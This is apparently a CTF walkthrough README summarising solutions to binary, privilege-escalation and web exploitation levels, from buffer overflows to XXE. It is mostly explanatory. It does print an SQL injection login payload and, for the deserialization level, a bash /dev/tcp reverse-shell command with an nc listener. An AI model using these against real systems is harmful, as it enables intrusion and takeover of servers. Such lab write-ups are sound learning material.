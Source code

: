 # CTF Walkthrough

This README serves as an overview of each level's solution in the CTF. The detailed exploits and code can be found within the respective subdirectories for each category and level.

The solutions provided detail the vulnerabilities discovered, the process of exploitation, and the obstacles that had to be overcome at each level. This information can be valuable for understanding not just "what" the solutions are, but "why" they work and "how" they were arrived at.

I hope this guide is helpful for anyone looking to understand more about these types of vulnerabilities and the methods used to exploit them. Enjoy exploring, learning, and happy hacking!

## Binary Exploitation

### Level 1

**Solution**: The challenge here was pretty straightforward. The goal was to use a symlink and redirect `~` to the PATH.

### Level 2

**Solution**: The key to this level was to fuzz the `choice` function. Here's the step-by-step solution:

1. Input "1234". The program returned an "invalid input: 210" error.
2. Noticing the 210, I deduced that this could be an integer overflow since 1234 mod 1024 = 210.
3. After running the choice function again with an input of "1027" (since that's 3 modulo 1024), a shell was opened.
4. On further examination of the code, I identified that the integer does indeed overflow after 256.

### Level 3

**Solution**: The vulnerability exploited here lies in the reading of the username from user input. Here's how it was done:

1. When reading the username, the `get_string_from_user()` function mistakenly writes to the password buffer while using `USERNAME_BUFFER_SIZE`, causing an overflow.
2. Conveniently, the address of the function used for checking the credentials (`test_authenticate_admin`) is placed and called on the stack within the range we can overwrite with this overflow.
3. We can simply replace the address with the address of `test_start_admin_console`, which we find with `gdb` (> info address `test_start_admin_console`) = 0x4012ee.
4. We examined the assembly code to determine the amount of padding needed to get from the password buffer to the pointer to `test_authenticate_admin`.
5. We found that 0x40(%rsp) is the location of the buffer and 0x78(%rsp) is the location of the pointer. 0x78 - 0x40 = 0x38 = 3*16 +8 = 56.

### Level 4

**Solution**: The key steps were:

1. Start the echo service, which is vulnerable to a brute force attack since it's a fork server.
2. Cause a buffer overflow with a canary and redirect to `admin_console()`, then enter `l33t`.

Some obstacles along the way included:

- Realizing that brute force was the right approach took a while.
- Adding the address of `admin_console` right after the canary, forgetting about the frame pointer between the canary and the return address.
- Returning to the `admin_console()` address did not work. I had to return to a higher address, skipping one or two lines of assembly instructions.
- Realizing that the shell is opened in the running `echo_service` process and that I simply had to enter `l33t` there.

## Privilege Escalation

### Level 1

**Solution**: Upon reading the source code, I noticed a call to `~/.secret`.

1. I surmised that `~` is defined by the HOME variable in the environment.
2. Changing the HOME variable to the directory where the secret was stored made the program diff `.secret` with itself. This returned exit code 0, which gave me a shell.

### Level 2

**Solution**: The binary allows execution of commands with level 2 privileges (gid), but it's intended to be used only in `/devel/bin`. 

1. This can easily be bypassed using "../../".
2. Find the `l33t` command using `whereis`.
3. Run the `l33t` command as `group2`.

### Level 

3

**Solution**: The vulnerability lies in `strcpy`, which doesn't check if the source is larger than the target. Here's the exploit process:

1. The `strcpy` function occurs after the security checks, meaning we can bypass the check if the accessed binary is in the right directory and within our permissions.
2. We pretend to want to access `uniq`, then overflow `l33t` into the filename buffer from the argument buffer.

### Level 4

**Solution**: There's an off-by-one error in `safecpy`, allowing us to join `user` and `host` into one string, not separated by any null bytes.

1. The buffer for `greeting` is only 160 characters long, and it overflows if we fill it with one of these joined host/user names.
2. We can thus overwrite the return address.
3. Load shellcode into the environment and redirect the return address to it.
4. Open a shell, but executing `l33t` did not yield the desired result.
5. Execute the `l33t` command directly, instead of opening a shell.

## Web Exploitation

### Level 1

**Solution**: The key was realizing that PHP would interpret the hash starting with "0e" and consisting only of numerals as a float.

1. I wrote a Python script iterating through numbers to attach to the prefix until the hash fit the regular expression "^0e[ 0-9]*$".
2. Found "My lucky number is 161614089".
3. Flag: flag{2fCeHg649Oa1baQA}

### Level 2

**Solution**: Took some time to find the binary under /data.

1. Decompiled it with Ghidra.
2. Found that the first usage XORed the input with a string and compared the result to another string. XORed those two strings and got "admin" interpreted in ASCII.
3. Second use of the function was obviously checking the password: 0a677ebfe9eaccdcb878e9d219142b9d.
4. Flag: flag{IO7eRAhsbe7YKyAl}

### Level 3

**Solution**: Tried to inject all fields on the website.

1. Successful on username.
2. Tried to find out things about the user table and found it had a password column.
3. Iteratively guessed the password of tsutomu by using the LEFT() function in the injected query.
4. Result: ' OR LEFT(password,31) ='kevinmitnickisanarrogantbastard' -- -
5. Logged in as tsutomu and found the flag in his private blog.
6. Flag: flag{ir1kvKKvuX9CmmlS}

### Level 4

**Solution**: Vulnerable to Padding Oracle attack.

1. Found .hidden.txt by intercepting the packet with Burp Suite.
2. Got Burp Suite padding oracle hunter to work after lots of tries.
3. Flag: flag{JIp6XtSmWvisOFqz}

### Level 5

**Solution**: Recognized that it was a hash length extension attack fairly quickly.

1. Wrote a Python script using hashpump to extend the hashes.
2. Started looking around for which file to actually request.
3. Found .hidden.txt mentioned.
4. Was only successful when I brute-forced password length. Password was 39 long and not 30 as mentioned on the website.
5. Flag: flag{gMyWh8fcfhjhWw5K}

### Web Exploitation

### Level 6: Deserialization Attack

**Solution**: In this level, we exploited a Deserialization vulnerability, which involved a more complex process compared to previous levels:

1. Identified that this was the only service issuing a cookie.
2. Decoded the cookie using Base64 and discovered hints of a password and username.
3. Recognized the need for a deserialization attack, and used `ysoserial` to generate a payload.
4. Set up a DNS server to track DNS requests and tested the attack.
5. Identified working `ysoserial` payloads by testing them using wget to a webhook URL, appending the payload name for identification.
6. Encountered challenges in achieving a reverse shell, requiring the use of a modified version of `ysoserial`.
7. Command used for the reverse shell: "bash -i >& /dev/tcp/"+ip+"/"+port+" 0>&1". Listened with: nc -lvnp port
8. Navigated through server permissions to find the flag, which was found using the command: cat /var/websec/wwwstudent_43/level06/flag.txt
9. Flag: tomcat{wmfmRzJpzLtiz7a1}

### Level 7: XML External Entity (XXE) Attack

**Solution**: In this level, an XML External Entity (XXE) vulnerability was exploited.

1. Identified the vulnerability as XML External Entity (XXE).
2. Uploaded an SVG that incorporates the file mentioned in the admin bio using a standard SVG payload from "Payload All The Things".
3. Experienced difficulties with padding. Wrote a Python script to iterate through the lorem ipsum a few pixels at a time.
4. Carefully examined the output pictures and eventually found the flag.
5. Flag: wsgi{FEKCCZcwYidfAurg}
